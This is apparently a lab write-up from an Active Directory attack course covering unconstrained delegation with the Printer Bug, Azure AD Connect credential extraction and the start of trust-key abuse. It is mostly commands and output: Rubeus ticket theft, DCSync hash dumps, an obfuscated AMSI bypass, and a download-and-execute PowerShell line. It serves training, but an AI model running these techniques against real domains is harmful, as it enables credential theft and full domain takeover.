


# AD Trust Attacks

## Intra-Forest Unconstrained Delegation Abuse

### Lab: Hands-On #18

#### Tasks

- Abuse the Unconstrained Delegation on `us-web` to get Enterprise Admin privileges on `techcorp.local`

#### Attack Path Diagram

```
[Access to us-web] {Unconstrained Delegation enabled}
      │
(start TGT monitoring)
      │
      ▼
[us-web is ready to intercept TGTs]
      │
(trigger authentication from techcorp-dc exploiting Printer Bug)
      │
      ▼
[TGT of TECHCORP-DC$ is captured and injected]
      │
(perform DCSync on techcorp.local)
      │
      ▼
[Dumped credentials of Enterprise Admin]
```

#### Attack Path Steps

1. Administrative access to the `us-web` host, which has Unconstrained Delegation enabled
2. Start TGT monitoring on `us-web` to capture tickets presented by incoming systems
3. Trigger an authentication from the `techcorp-dc` to `us-web` exploiting the Printer Bug
4. Capture the TGT of the domain controller machine account `TECHCORP-DC$` via Unconstrained Delegation on `us-web`
5. Inject the captured ticket and perform a DCSync attack against `techcorp.local`

#### Solution

- Abuse the Unconstrained Delegation on `us-web` to get Enterprise Admin privileges on `techcorp.local`

Recall that we compromised `us-web`, which has Unconstrained Delegation enabled, in a previous hands-on (#11) and used the Printer Bug to compromise `us.techcrop.local`.

We can use a similar method to compromise `techcorp.local`.

Start a new process as `webmaster`, who has admin privileges on `us-web`.

```
C:\AD\Tools> echo %Pwn%

asktgt

C:\AD\Tools> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /domain:us.techcorp.local /user:webmaster /aes256:2a653f166761226eb2e939218f5a34d3d2af005a91f160540da6e4a5e29de8a0 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

[SNIP]

[*] Action: Ask TGT 🎟️

[SNIP]

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/US.TECHCORP.LOCAL
  ServiceRealm             :  US.TECHCORP.LOCAL
  UserName                 :  webmaster 🎭
  UserRealm                :  US.TECHCORP.LOCAL 🏛️
  StartTime                :  4/27/2025 2:38:13 AM
  EndTime                  :  4/27/2025 12:38:13 PM
  RenewTill                :  5/4/2025 2:38:13 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  h+zkFzpQCz3ouHy+xgfTAgApuTCg3423qWvdvvJvaGg=
  ASREP (key)              :  2A653F166761226EB2E939218F5A34D3D2AF005A91F160540DA6E4A5E29DE8A0
```

Copy the Loader to `us-web` and execute Rubeus in memory and monitoring for any authentication from `techcorp-dc`.

Run the below command in process running as `webmaster`.

```
C:\Windows\system32> echo F | xcopy C:\AD\Tools\Loader.exe \\us-web\C$\Users\Public\Loader.exe /Y

[SNIP]
```

```
C:\Windows\system32> winrs -r:us-web cmd.exe

Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\webmaster>
🚀

C:\Users\webmaster> netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.51
```

```
C:\Users\webmaster> echo %Pwn%

monitor

C:\Users\webmaster> C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args %Pwn% /targetuser:TECHCORP-DC$ /interval:5 /nowrap

[SNIP]

[*] Action: TGT Monitoring 📌
[*] Target user     : TECHCORP-DC$ 🖥️
[*] Monitoring every 5 seconds for new TGTs

[SNIP]
```

Next, run `MS-RPRN.exe` on the student VM to abuse the Printer Bug.

Note that this time we target `techcorp-dc`.

```
PS C:\AD\Tools> C:\AD\Tools\MS-RPRN.exe \\techcorp-dc.techcorp.local \\us-web.us.techcorp.local

Attempted printer notification and received an invalid handle.
The coerced authentication probably worked! 🔥
```

On the session where Rubeus is running, we can see.

```
[SNIP]

[*] 4/28/2025 1:46:42 PM UTC - Found new TGT: 🎟️

  User                  :  TECHCORP-DC$@TECHCORP.LOCAL
  StartTime             :  4/27/2025 10:17:00 PM
  EndTime               :  4/28/2025 8:17:00 AM
  RenewTill             :  5/4/2025 10:17:00 PM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

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
```

We can copy Base64EncodedTicket, remove unnecessary spaces and newline (if any) and use the ticket with Rubes on the student VM.

```
C:\AD\Tools> echo %Pwn%

ptt

C:\AD\Tools> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /ticket: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

[SNIP]

[*] Action: Import Ticket 🎟️
[+] Ticket successfully imported!
```

```
C:\AD\Tools> klist

[SNIP]

Cached Tickets: (1) 🎟️

#0>     Client: TECHCORP-DC$ 🎭 @ TECHCORP.LOCAL 🏛️
        Server: krbtgt/TECHCORP.LOCAL @ TECHCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x60a10000 -> forwardable forwarded renewable pre_authent name_canonicalize
        Start Time: 4/27/2025 22:17:00 (local)
        End Time:   4/28/2025 8:17:00 (local)
        Renew Time: 5/4/2025 22:17:00 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

We can now run DCSync attack against `techcorp-dc` using the injected ticket.

```
C:\AD\Tools> echo %Pwn%

lsadump::dcsync

C:\AD\Tools> C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:techcorp\krbtgt /domain:techcorp.local" "exit"

[SNIP]

mimikatz(commandline) # lsadump::dcsync /user:techcorp\krbtgt /domain:techcorp.local

[SNIP]

SAM Username         : krbtgt 👤
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 7/4/2019 2:52:52 AM
Object Security ID   : S-1-5-21-2781415573-3701854478-2406986946-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 7735b8be1edda5deea6bfbacb7f2c3e7 🔑
    ntlm- 0: 7735b8be1edda5deea6bfbacb7f2c3e7
    lm  - 0: 295fa3fef874b54f29fd097c204220f0

[SNIP]

* Primary:Kerberos-Newer-Keys *
    Default Salt : TECHCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 290ab2e5a0592c76b7fcc5612ab489e9663e39d2b2306e053c8b09df39afae52 🔑

[SNIP]
```

```
C:\AD\Tools> C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:techcorp\administrator /domain:techcorp.local" "exit"

[SNIP]

mimikatz(commandline) # lsadump::dcsync /user:techcorp\administrator /domain:techcorp.local

[SNIP]

SAM Username         : Administrator 👤
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 7/4/2019 3:01:32 AM
Object Security ID   : S-1-5-21-2781415573-3701854478-2406986946-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: bc4cf9b751d196c4b6e1a2ba923ef33f 🔑
    ntlm- 0: bc4cf9b751d196c4b6e1a2ba923ef33f
    ntlm- 1: c87a64622a487061ab81e51cc711a34b
    lm  - 0: 6ac43f8c5f2e6ddab0f85e76d711eab8

[SNIP]

* Primary:Kerberos-Newer-Keys *
    Default Salt : TECHCORP.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883 🔑

[SNIP]
```

---
---

## Intra-Forest Azure AD Connect Abuse

### Lab: Hands-On #19

#### Tasks

- Find out the machine where Azure AD Connect is installed
- Compromise the machine and extract the password of AD Connect user in clear-text
- Using the AD Connect user's password, extract secrets from `us-dc` and `techcorp-dc`

#### Attack Path Diagram

```
[Identify machine with Azure AD Connect via MSOL_* account description]
      │
(access to us-adconnect machine using previously obtained credentials)
      │
      ▼
[Administrative access to us-adconnect]
      │
(extract credentials of MSOL_* service account)
      │
      ▼
[MSOL_* password is used to impersonate the account]
      │
(perform DCSync on techcorp.local)
      │
      ▼
[Dumped credentials of Enterprise Admin]
```

#### Attack Path Steps

1. Identify the Azure AD Connect machine
2. Leverage existing administrative access to the identified machine `us-adconnect`
3. Extract the clear-text password of the `MSOL_*` Azure AD Connect service account
4. Impersonate the `MSOL_*` user and perform a DCSync attack against `techcorp.local`

#### Solution

- Find out the machine where Azure AD Connect is installed

We can find out the machine where Azure AD Connect is installed by looking at the Description of special account whose name begins with 'MSOL_'.

```
C:\AD\Tools> C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

[SNIP]

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll

PS C:\AD\Tools> Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```

```
PS C:\AD\Tools> Get-ADUser -Filter "samAccountName -like 'MSOL_*'" -Server techcorp.local -Properties * | select SamAccountName,Description | fl

[SNIP]

SamAccountName : MSOL_16fb75d0227d 👤
Description    : Account created by Microsoft Azure Active Directory Connect with installation identifier 16fb75d0227d4957868d5c4ae0688943 running on computer US-ADCONNECT 🖥️ configured to synchronize to tenant techcorpus.onmicrosoft.com. This account must have directory replication permissions in the local Active Directory and write permission on certain attributes to enable Hybrid Deployment.
```

- Compromise the machine and extract the password of AD Connect user in clear-text

Recall from a previous hands-on (#13) that we already have administrative access to `us-adconnect` as `helpdeskadmin`.

With that access, we can extract credentials of `MSOL_16fb75d0227d` account in clear-text. We will use the `adconnect.ps1` script for that.

Connect to `us-adconnect` as `helpdeskadmin`.

Run the below command from an elevated shell.

```
C:\Windows\system32> echo %Pwn%

asktgt

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /domain:us.techcorp.local /user:helpdeskadmin /aes256:f3ac0c70b3fdb36f25c0d5c9cc552fe9f94c39b705c4088a2bb7219ae9fb6534 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

[SNIP]

[*] Action: Ask TGT 🎟️

[SNIP]

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/US.TECHCORP.LOCAL
  ServiceRealm             :  US.TECHCORP.LOCAL
  UserName                 :  helpdeskadmin 🎭
  UserRealm                :  US.TECHCORP.LOCAL 🏛️
  StartTime                :  4/27/2025 2:46:23 AM
  EndTime                  :  4/27/2025 12:46:23 PM
  RenewTill                :  5/4/2025 2:46:23 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  6CAL0Sv3y3cY+hMHWJnk8SA0zEB/rXSWWUkwQxSX134=
  ASREP (key)              :  F3AC0C70B3FDB36F25C0D5C9CC552FE9F94C39B705C4088A2BB7219AE9FB6534
```

In the new process, run the following commands to copy Invisi-Shell on `us-adconnect` machine and use it.

```
C:\Windows\system32> echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\us-adconnect\C$\Users\helpdeskadmin\Downloads\InShellProf.dll /Y

[SNIP]

C:\Windows\system32> echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\us-adconnect\C$\Users\helpdeskadmin\Downloads\RunWithRegistryNonAdmin.bat /Y

[SNIP]
```

```
C:\Windows\system32> winrs -r:us-adconnect cmd

Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\helpdeskadmin>
🚀

C:\Users\helpdeskadmin> C:\Users\helpdeskadmin\Downloads\RunWithRegistryNonAdmin.bat

[SNIP]
```

Now we have a PowerShell session from Invisi-Shell ready on `us-adconnect`.

- Using the AD Connect user's password, extract secrets from `us-dc` and `techcorp-dc`

Next, host `adconnect.ps1` on a local web server and run the below commands on `us-helpdesk` to extract credentials of 'MSOL_' account.

Note that we would still need to run an AMSI bypass as the `adconnect.ps1` runs a new PowerShell process when executed.

```
PS C:\Users\helpdeskadmin> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

PS C:\Users\helpdeskadmin> iex (New-Object Net.WebClient).DownloadString('http://192.168.100.51/adconnect.ps1')

PS C:\Users\helpdeskadmin> ADconnect

AD Connect Sync Credential Extract POC (@_xpn_)
AD Connect Sync Credential Extract v2 (@_xpn_)
[ Updated to support new cryptokey storage method ]

[*] Querying ADSync localdb (mms_server_configuration)

[*] Querying ADSync localdb (mms_management_agent)
[*] Using xp_cmdshell to run some Powershell as the service user
[*] Credentials incoming...

Domain: techcorp.local 🏛️
Username: MSOL_16fb75d0227d 👤
Password: 70&n1{p!Mb7K.C)/USO.a{@m*%.+^230@KAc[+sr}iF>Xv{1!{=/}}3B.T8IW-{)^Wj^zbyOc=Ahi]n=S7K$wAr;sOlb7IFh}!%J.o0}?zQ8]fp&.5w+!!IaRSD@qYf 🔑
```

Now, we can use this password to run DCSync attacks against the target domain (`techcorp.local` in present case).

Run the below command from an elevated shell on student VM.

```
C:\Windows\system32> runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd

Enter the password for techcorp.local\MSOL_16fb75d0227d:
Attempting to start cmd as user "techcorp.local\MSOL_16fb75d0227d" ...
```

In the new process.

```
C:\Windows\system32> echo %Pwn%

lsadump::dcsync

C:\Windows\system32> C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:techcorp\administrator /domain:techcorp.local" "exit"

[SNIP]

SAM Username         : Administrator 👤
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 7/4/2019 3:01:32 AM
Object Security ID   : S-1-5-21-2781415573-3701854478-2406986946-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: bc4cf9b751d196c4b6e1a2ba923ef33f 🔑
    ntlm- 0: bc4cf9b751d196c4b6e1a2ba923ef33f
    ntlm- 1: c87a64622a487061ab81e51cc711a34b
    lm  - 0: 6ac43f8c5f2e6ddab0f85e76d711eab8

[SNIP]

* Primary:Kerberos-Newer-Keys *
    Default Salt : TECHCORP.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883 🔑
```

⭐ Note that the runas command need not be executed from an elevated shell, we did that as SafetyKatz checks if it is running from a high integrity process even if the command DCSync does not need high integrity process.

⭐ We can execute the same attack without needing administrator privileges on the student VM using the below commands.

```
C:\Users\studentuser51> runas /user:techcorp.local\MSOL_16fb75d0227d /netonly cmd

Enter the password for techcorp.local\MSOL_16fb75d0227d:
Attempting to start cmd as user "techcorp.local\MSOL_16fb75d0227d" ...
```

In the new process, run the following commands for DCSync.

```
C:\Windows\system32> C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

[SNIP]

PS C:\Windows\system32> Import-Module C:\AD\Tools\Invoke-Mimi.ps1

PS C:\Windows\system32> Invoke-Mimi -Command '"lsadump::dcsync /user:techcorp\administrator /domain:techcorp.local"'

[SNIP]

mimikatz(powershell) # lsadump::dcsync /user:techcorp\administrator /domain:techcorp.local

[SNIP]

SAM Username         : Administrator 👤
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 7/4/2019 3:01:32 AM
Object Security ID   : S-1-5-21-2781415573-3701854478-2406986946-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: bc4cf9b751d196c4b6e1a2ba923ef33f 🔑
    ntlm- 0: bc4cf9b751d196c4b6e1a2ba923ef33f
    ntlm- 1: c87a64622a487061ab81e51cc711a34b
    lm  - 0: 6ac43f8c5f2e6ddab0f85e76d711eab8

[SNIP]

* Primary:Kerberos-Newer-Keys *
    Default Salt : TECHCORP.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 58db3c598315bf030d4f1f07021d364ba9350444e3f391e167938dd998836883 🔑

[SNIP]
```

---
---

## Intra-Forest Trust Key Abuse via SID History Injection

### Lab: Hands-On #20

#### Tasks

- Using DA access to `us.techcorp.local`, escalate privileges to EA or DA to the parent domain `techcorp.local` using the domain trust key

#### Attack Path Diagram

```
[DA access on us.techcorp.local]
      │
(dump domain trust key from us-dc to techcorp.local)
(forge TGT with SIDHistory of EA in techcorp.local)
(request TGS for CIFS service on techcorp-dc)
      │
      ▼
[Access to techcorp.local shares as Enterprise Admin]
```

#### Attack Path Steps

1. Leverage Domain Admin access on the child domain `us.techcorp.local` 
2. Dump the interdomain trust key from the child domain controller `us-dc` 
3. Forge a TGT with SID History for Enterprise Admins in the parent domain `techcorp.local` using the trust key
4. Use the forged ticket to request a TGS for `CIFS` service on `techcorp-dc.techcorp.local`
5. Access the parent domain resources as an impersonated Enterprise Admin

#### Solution

- Using DA access to `us.techcorp.local`, escalate privileges to EA or DA to the parent domain `techcorp.local` using the domain trust key

We need the trust key, which can be retrieved using the DA privileges.

Run the below command on the student VM from an elevated shell.

```
C:\Windows\system32> echo %Pwn%

asktgt

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:administrator /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

[SNIP]

[*] Action: Ask TGT 🎟️

[SNIP]

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/US.TECHCORP.LOCAL
  ServiceRealm             :  US.TECHCORP.LOCAL
  UserName                 :  Administrator 🎭
  UserRealm                :  US.TECHCORP.LOCAL 🏛️
  StartTime                :  4/28/2025 9:33:14 AM
  EndTime                  :  4/28/2025 7:33:14 PM
  RenewTill                :  5/5/2025 9:33:14 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  FaT6dLFuvUVp0ydMh1jVmsznaRs/FpUOuiU6BZuTC9k=
  ASREP (key)              :  DB7BD8E34FADA016EB0E292816040A1BF4EEB25CD3843E041D0278D30DC1B335
```

In the new process, run the following commands.

```
C:\Windows\system32> echo F | xcopy C:\AD\Tools\Loader.exe \\us-dc\C$\Users\Public\Loader.exe /Y

[SNIP]

C:\Windows\system32> winrs -r:us-dc cmd

Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\Administrator>
🚀

